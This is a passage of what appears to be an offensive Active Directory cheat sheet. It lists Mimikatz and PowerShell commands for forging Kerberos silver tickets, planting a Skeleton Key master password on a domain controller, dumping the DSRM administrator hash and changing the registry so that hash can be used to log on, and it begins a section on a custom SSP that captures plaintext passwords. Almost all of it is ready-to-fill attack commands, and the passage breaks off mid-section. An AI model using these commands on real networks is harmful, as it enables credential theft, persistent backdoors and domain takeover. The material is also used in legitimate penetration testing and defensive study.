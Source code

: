 **Tip:**  
/ptt -&gt; inject ticket on current running session  
/ticket -&gt; save the ticket on the system for later use

### Silver Ticket Attack

```text
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

```text
#Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

#Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### DSRM Abuse

_Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

```text
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

Then just PTH to get local admin access on DC!

### Custom SSP

_We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!_

From powershell:
